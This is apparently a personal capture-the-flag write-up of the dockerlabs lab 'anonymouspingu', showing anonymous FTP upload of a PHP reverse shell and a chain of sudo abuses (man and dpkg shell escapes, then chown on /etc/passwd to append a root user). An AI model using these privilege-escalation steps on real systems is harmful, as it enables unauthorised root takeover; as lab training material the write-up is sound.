 ```yaml
---
layout: post
title: "anonymouspingu - dockerlabs"
date: 2024-10-28 06:25:00 -0400
categories:
    - posts
tags:
    - Road2OSCP
    - CTF
    - en
    - writeup
---
```



# anonymouspingu [dockerlabs]

- 
- We enumerate, and see HTTP and FTP with anonymous access.
- We upload a reverse shell to a directory we can see from the page, called "upload."
- We had some issues here because we tried to upload a JS reverse shell; in the end, we tested a typical one in PHP.
- We have access as the user www-data.
- `sudo -l` shows that we can execute commands as the user pingu.
- 

```bash
www-data@7e5ed41e0051:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on 7e5ed41e0051:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 7e5ed41e0051:
    (pingu) NOPASSWD: /usr/bin/man

```

Here we struggled a lot; the issue is the interpretation of `sudo -l`, which I’ll cover later, but basically, we can say that we ran `man` as pingu.

- We tested linpease, pspy64, SUID permissions, and more... we went around in circles.
- We ended up relying on the write-up.

```bash
www-data@7e5ed41e0051:/var/www/html/upload$ sudo -u pingu /usr/bin/man man

```

In this context, the result of `sudo -l` indicates that the user www-data can execute the `man` command as the user pingu without needing to enter a password (NOPASSWD). This is detailed in the line:

```
(pingu) NOPASSWD: /usr/bin/man

```

This permission means that `www-data` can execute `/usr/bin/man` with the privileges of the user `pingu` using `sudo`. Taking advantage of this, you can start a shell as the user `pingu` in the following way:

1. **Run the `man` command with sudo**: Execute the following command to open the `man` manual with `pingu`'s permissions:

```bash
sudo -u pingu /usr/bin/man man
```

Accessing a Shell from man: Once inside the man manual, you can invoke a shell by typing `!bash` or `!sh` (the `!` symbol allows you to execute commands in most man viewers). This will execute a shell with the privileges of pingu:

```
code

```

## pivot 2

[https://gtfobins.github.io/gtfobins/dpkg/](https://gtfobins.github.io/gtfobins/dpkg/)

```bash
$ sudo -l
Matching Defaults entries for pingu on 7e5ed41e0051:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 7e5ed41e0051:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg
    
    pingu@7e5ed41e0051:~$ sudo -u gladys /usr/bin/dpkg -l
    !/bin/sh

```

## pivot3

```bash
$ sudo -l
Matching Defaults entries for gladys on 7e5ed41e0051:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 7e5ed41e0051:
    (root) NOPASSWD: /usr/bin/chown

```

Here we also struggled a bit; I’m relying on the write-up because I have to work.

Looking back now, we weren’t focused on understanding that we can use `chown` to change permissions; we got confused with gtfobins.

But basically, the pivot involves changing the permissions of `/etc/passwd` and then adding a user there.

```bash
gladys@7e5ed41e0051:~$ openssl passwd yourpass
$1$y9dM3R07$YVeHg7gGK1VvSBof81nEw.
gladys@7e5ed41e0051:~$ sudo /usr/bin/chown gladys. /etc/passwd
gladys@7e5ed41e0051:~$ echo 'privesc:$1$y9dM3R07$YVeHg7gGK1VvSBof81nEw.:0:0::/home/privesc:/bin/bash' >> /etc/passwd
gladys@7e5ed41e0051:~$ su privesc
Password:                                                                                                                                           
root@7e5ed41e0051:/home/gladys#         
```

Note: The confusion and what I was trying to do without sense was:

Creating a reverse shell, but of course, I didn’t take into account that `chown` changes permissions... lesson learnt.